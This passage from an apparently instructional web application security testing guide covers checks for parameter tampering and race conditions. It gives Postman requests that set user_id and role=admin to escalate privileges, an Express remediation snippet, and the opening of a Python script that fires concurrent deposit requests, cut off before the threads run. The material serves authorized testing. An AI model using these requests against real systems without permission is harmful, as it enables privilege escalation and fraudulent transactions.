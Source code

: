 **Objective**: Check if non-numeric parameter manipulation allows unauthorized actions.

**Steps**:
1. **Identify Endpoint**:
   - Find an API endpoint (e.g., `POST /api/v1/profile`) from Burp Suite.
2. **Tamper Parameters**:
   - Modify fields like `user_id` or `role` (e.g., `user_id=999`, `role=admin`).
3. **Analyze Response**:
   - Check if unauthorized actions are performed (e.g., profile updated).

**Postman Commands**:
- **Command 1**: Tamper user ID:
  ```
  New Request -> POST http://example.com/api/v1/profile -> Body -> raw -> JSON: {"user_id": 999, "role": "admin"} -> Headers: Authorization: Bearer user_token -> Send
  ```
- **Command 2**: Verify changes:
  ```
  New Request -> GET http://example.com/api/v1/profile -> Headers: Authorization: Bearer user_token -> Send
  ```

**Example Vulnerable Response**:
```
HTTP/1.1 200 OK
{"status": "Profile updated"}
```

**Remediation**:
- Restrict parameters (Express):
  ```javascript
  if (req.body.user_id !== req.user.id) {
      res.status(403).send('Unauthorized');
  }
  ```

**Tip**: Save Postman requests and responses as exports or screenshots. Organize findings in a report with timestamps, test descriptions, and evidence of vulnerabilities (e.g., API responses).

### 8. Test Race Conditions in Business Logic with Python Requests

**Objective**: Verify if concurrent requests bypass validation in transactional endpoints.

**Steps**:
1. **Identify Endpoint**:
   - Find a transactional endpoint (e.g., `POST /account/deposit`).
2. **Send Concurrent Requests**:
   - Use Python to send multiple simultaneous requests.
3. **Analyze Response**:
   - Check if all requests are processed without validation (e.g., inflated balance).

**Python Script**:
```python
import requests
import threading
import sys

url = 'http://example.com/account/deposit'
data = {'amount': 100.00}
headers = {'Authorization': 'Bearer user_token'}

def send_request():
    try:
        response = requests.post(url, data=data, headers=headers, timeout=5)
        print(f"Response: {response.text[:100]}")
    except requests.RequestException as e:
        print(f"Error: {e}")

```